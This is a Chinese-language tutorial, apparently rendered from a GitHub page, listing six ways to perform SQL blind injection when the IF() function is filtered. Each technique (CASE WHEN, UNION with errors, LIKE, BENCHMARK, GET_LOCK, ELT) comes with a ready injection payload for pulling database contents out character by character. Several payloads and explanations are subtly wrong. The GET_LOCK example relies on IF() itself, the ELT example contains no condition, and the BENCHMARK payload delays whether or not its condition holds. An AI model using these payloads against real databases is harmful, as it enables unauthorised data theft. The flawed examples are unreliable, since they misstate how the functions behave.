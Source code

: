 ### SQL 盲注 if() 函数被过滤怎么绕过

**1. 利用 `CASE WHEN` 语句**

`CASE WHEN` 语句是 SQL 中最常见的条件判断表达式，其功能与 `IF()` 函数非常相似，且通常不会被安全设备过滤

- **语法：** `CASE WHEN [condition] THEN [value1] ELSE [value2] END`
- **布尔盲注绕过：** `SELECT * FROM users WHERE id = 1 AND CASE WHEN (1=1) THEN 1 ELSE 2 END = 1`
- **时间盲注绕过：** `SELECT * FROM users WHERE id = 1 AND CASE WHEN (SUBSTRING(database(),1,1) = 'd') THEN SLEEP(5) ELSE 0 END`

**2. 利用 `UNION` + 错误信息**

当 `IF()` 被过滤，但 `UNION` 和错误信息回显没有被完全禁用时，我们可以利用 `UNION` 来触发自定义的错误信息，从而进行布尔盲注

- **原理：** 通过 `UNION` 将一个错误的查询结果与正常的查询结果合并，当错误的查询语句执行时，数据库会返回错误信息，其中可能包含我们想要的数据
- **绕过方式：** `SELECT * FROM users WHERE id = -1 UNION SELECT 1, 2, 3 FROM DUAL WHERE (1=2) OR (1=1) UNION SELECT 1, 2, 3 FROM (SELECT 1 UNION SELECT 2 UNION SELECT 3)a` 这个方法需要根据具体情况进行调整，利用数据库的语法错误或类型转换错误来触发自定义的错误信息

**3. 利用位运算和 `LIKE` 语句**

当数据库不支持 `IF()` 或 `CASE` 语句时，我们可以利用逻辑运算和位运算来逐位判断数据

- **原理：** `LIKE` 语句可以用于模糊匹配，我们可以将它和数据库中的数据结合起来，逐个字符地猜解
- **绕过方式：** `SELECT * FROM users WHERE id = 1 AND username LIKE 'a%'` 如果该查询返回结果，则说明 `username` 的第一个字符是 'a'。我们可以通过不断改变 `%` 前的字符来逐个猜解数据

**4. 利用 `benchmark()` 函数**

在 MySQL 中，`benchmark()` 函数可以用来执行指定的函数多次，从而消耗大量时间。这可以用来替代 `SLEEP()` 函数进行时间盲注

- **原理：** `BENCHMARK(count, expr)` 会重复执行 `expr` 表达式 `count` 次。如果 `expr` 包含一个耗时的操作，我们可以根据执行时间来判断条件是否成立

- **绕过方式：** `SELECT * FROM users WHERE id = 1 AND BENCHMARK(10000000, MD5(1)) AND (SUBSTRING(database(),1,1) = 'd')`

  如果条件 `(SUBSTRING(database(),1,1) = 'd')` 成立，`BENCHMARK` 函数就会被执行，页面响应会变慢。否则，页面会立即响应

**5. 利用 `get_lock()` 函数**

在 MySQL 中，`GET_LOCK()` 函数可以用于获取一个全局锁，如果锁已被其他会话占用，该函数会等待直到锁被释放或超时

- **原理：** 我们可以利用 `GET_LOCK()` 函数设置一个长达数秒的锁，从而实现时间盲注的效果

- **绕过方式：** `SELECT * FROM users WHERE id = 1 AND IF((SUBSTRING(database(),1,1)='d'), GET_LOCK('hack', 5), 0)`

  如果条件成立，`GET_LOCK` 会被执行，页面会等待 5 秒

**6. 利用 `ELT()` 函数**

`ELT()` 函数是 MySQL 中的一个字符串函数，它可以根据索引返回列表中的一个字符串

- **原理：** `ELT(N, str1, str2, ...)` 返回第 N 个字符串。我们可以将它与条件判断结合，实现布尔盲注
- **绕过方式：** `SELECT * FROM users WHERE id = 1 AND ELT(1, 'false', 'true')` 如果条件为真，`ELT` 会返回 `true`，否则返回 `false`